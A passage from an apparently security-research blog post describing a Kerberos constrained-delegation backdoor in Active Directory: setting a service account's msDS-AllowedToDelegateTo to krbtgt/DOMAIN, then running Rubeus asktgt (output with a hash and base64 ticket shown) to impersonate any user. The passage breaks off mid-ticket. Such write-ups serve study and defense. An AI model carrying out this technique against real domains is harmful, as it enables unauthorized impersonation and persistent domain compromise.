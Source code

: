 We saw that if we have enough privileges, we can control the field `msDS-AllowedToDelegateTo` of a service account.

Now if we set `krbtgt/COSMOS` as value, what will happens?

# Let's Backdoor !

The attack will consist into :
1. Detect a service account with constrained delegation and protocol transition
1. **Set value `krbtgt/DOMAIN` to the field `msDS-AllowedToDelegateTo` of the service account**, that's the innovative part 🆕 !
1. Ask a TGT for the service account
1. Perform a `s4u` request (Self, and proxy) to impersonate a target user against the delegated service, here `krbtgt`

In the following example, the service account is `SA-TEST-01` and the privileged user is `alice`.

## Getting Service Account

In this situation we have two options: create one or compromised one.

As LDAP is always our best friend. We can create and configure a Service account using any LDAP tools, like for the oldest one, `ldp.exe`. 
Be aware that it can be noisy to create a service account.
But it can be noisy to create a service account

## Set msDS-AllowedToDelegateTo to krbtgt service

Legitimate administration tools like “*Users and Computers*” can not set a SPN to `krbtgt/DOMAIN` directly. However, it works using ldp over LDAP:

**![|624x341](/images/c358ad8130662869e9f9aef19e9d1c10baf7a3e9.png)**

In the screenshot, we set the service account with a target SPN value of `krbtgt/COSMOS`.

Now, let's use [Rubeus](https://github.com/GhostPack/Rubeus) to create a TGT for any user, without knowing anything about the secret of the target user.

## Ask TGT for SA-TEST-01

First of all, we will ask a TGT for the service account, the only secret we need is the hash or password of this service account:

```text
c:\work\dev\Rubeus\Rubeus\bin\Debug>Rubeus.exe asktgt /user:SA-TEST-01 /domain:COSMOS /dc:127.0.0.1 /password:test /outfile:sa_tgt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 0CB6948805F797BF2A82807973B89537
[*] Building AS-REQ (w/ preauth) for: 'COSMOS\SA-TEST-01'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFFjCCBRKgAwIBBaEDAgEWooIEMTCCBC1hggQpMIIEJaADAgEFoQ0bC0NPU01PUy5DT1JQohswGaAD
      AgECoRIwEBsGa3JidGd0GwZDT1NNT1OjggPwMIID7KADAgESoQMCAQ2iggPeBIID2kbsUIKBiGUzKwwW
      G/HP93teI1C7w9mjUHNJKBpTQUtDNFsEdsevhGVOOUKFIqcyYB4YKnXV2KpX6wASqYeGMMHjMPjU93qX
```